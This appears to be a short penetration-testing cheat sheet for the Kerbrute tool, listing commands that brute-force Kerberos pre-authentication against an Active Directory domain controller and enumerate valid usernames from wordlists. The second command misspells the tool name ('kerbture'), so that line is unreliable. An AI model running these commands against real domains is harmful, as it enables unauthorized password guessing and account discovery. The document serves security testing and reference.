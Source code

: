 ```yaml
---
title: Kerbrute
desc: Bruteforcing Kerberos pre-auth.
tags: [ActiveDirectory, BruteForce, Linux, Windows]
alts: [Impacket]
website: https://github.com/ropnop/kerbrute
---
```


## Bruteforce username:password

```sh
kerbrute bruteforce --dc 10.0.0.1 -d example.domain /path/to/combos.txt

# combos.txt example:
# username:password
# admin:admin
# wiener:peter
```

<br />

## Bruteforce user's password

```sh
kerbture bruteuser --dc 10.0.0.1 -d example.domain /usr/share/wordlists/rockyou.txt username
```

<br />

## Enumerate users

```sh
# Get users (--dc: the location of domain controller, -d: domain name)
kerbrute userenum --dc 10.0.0.1 -d example.local /usr/share/wordlists/username.txt
```
